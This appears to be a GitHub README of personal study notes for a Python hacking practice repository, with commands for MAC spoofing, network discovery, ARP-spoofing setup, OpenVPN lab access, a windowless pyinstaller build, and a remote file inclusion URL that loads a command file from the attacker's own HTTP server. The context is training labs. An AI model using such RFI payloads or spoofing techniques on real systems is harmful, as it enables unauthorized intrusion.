 # Hacking With Python

## Introduction

Various tests and exercises to simulate different kind of attacks with Python scripts.

## Commands

```powershell
ifconfig eth0 down
ifconfig eth0 hw ether 00:11:22:33:44:55
ifconfig etho0 up
```

```powershell
netdiscover -r <ip address network>
# get the route
route -n
```

## Kali Linux Commands

```powershell
uname -a
uname -r
Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 GNU/Linux

lsb_release -a

cat /etc/os-release 

hostname -I
ip addr
```

<b>Arp Spoofing</b> 

Make portforwarding to make linux act as a router:

```powershell
echo 1 > /proc/sys/mnet/ipv4/ip_forward
```

## OpenVpn3

Install:

```powershell
# install
sudo apt update
sudo apt-get upgrade
sudo autoclean
apt-get install network-manager-openvpn network-manager-pptp network-manager-pptp-gnome network-manager-vpnc network-manager-vpnc-gnome

# connect
sudo openvpn <name-of-your-connection-pack>.ovpn
sudo openvpn flecheria.ovpn
```

## Discord

[Create Discord Server](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-)

```powershell
pyinstaller.exe <path to the file .py> --onefile --noconsole
```

## Python VirtualEnv

```powershell
# instal virtualenv
pip install virtualenv
pip install virtualenvwrapper

# create virtualenv
virtualenv --python=python3 ~/venv/hackingpython
virtualenv --version

# activate virtualenv
source ~/venv/<env name>/bin/activate
# deactivate
deactivate

# list all virtualenv
lsvirtualenv

python -m pip install -r requirements.txt

# start python server
python3 –m http.server 9001
```

http://10.10.109.151/challenges//chall3.php?file=http://10.0.2.4:9001/cmd.txt
10.0.2.4 10.8.17.39 

## Reference

[Pythex](https://pythex.org/)  
[Python Alternatives Command](https://linuxconfig.org/how-to-change-from-default-to-alternative-python-version-on-debian-linux)  
[Windows 10 Images](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)  
Password Windows VM Machine: Passw0rd!  
[OpenVPN](https://www.ovpn.com/en/guides/debian)  
[OpenVPN](https://openvpn.net/vpn-software-packages/debian/)  
[OpenVPN 3](https://openvpn.net/cloud-docs/openvpn-3-client-for-linux/)
[OpenVPN](https://bobcares.com/blog/install-openvpn-client-debian/)  
[Debian Release](https://www.debian.org/releases/)  
[File Inclusion, LFI and RFI](https://medium.com/@kumarishefu.4507/try-hack-me-write-up-module-vulnerability-research-file-inclusion-aaa898210bc5)
[RequestBin](https://requestbin.com/)  
[XSS](http://google-gruyere.appspot.com/)  
[XSS Attacks](https://www.oreilly.com/library/view/xss-attacks/9780080553405/)  
[The Tangled Web](https://lcamtuf.coredump.cx/tangled/)
[Practical Doomsday](https://lcamtuf.coredump.cx/prep/)
